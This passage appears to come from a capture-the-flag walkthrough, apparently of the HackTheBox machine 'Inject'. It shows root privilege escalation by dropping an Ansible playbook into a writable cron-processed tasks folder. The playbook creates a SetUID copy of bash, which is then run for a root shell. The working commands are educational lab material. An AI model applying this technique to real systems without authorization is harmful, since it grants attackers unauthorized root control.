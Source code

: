 

Which means that phil can write to this folder:



    phil@inject:/opt/automation/tasks$ touch 0xdf
    phil@inject:/opt/automation/tasks$ ls
    0xdf  playbook_1.yml



### Execution Via Ansible

The simplest way to run some command via Ansible is with the built-in
[Shell
module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.md).
I'll make a file that's as simple as:



    - hosts: localhost
      tasks:
      - name: '0xdf owns inject'
        shell: cp /bin/bash /tmp/0xdf; chmod 4755 /tmp/0xdf 



I'll save this as `/opt/automation/tasks/0xdf.yml`. When the cron runs,
there's a new file in `/tmp`:



    phil@inject:/opt/automation/tasks$ ls -l /tmp/0xdf
    -rwsr-xr-x 1 root root 1183448 Mar 14 12:58 /tmp/0xdf  



This is a copy of `bash` that's owned by root with the SetUID bit
enabled. So when I run this (with `-p` to maintain privs), I get a shell
as root:



    phil@inject:/opt/automation/tasks$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(phil) gid=1001(phil) euid=0(root) groups=1001(phil),50(staff)   



More specifically, it's with effective userid of 0 / root (check out
[this post](/setuid-rabbithole.md) for a detailed breakdown
of what's happening here). Regardless, I can read `root.txt`:



    0xdf-5.0# cat root.txt
    e6e4cee7************************







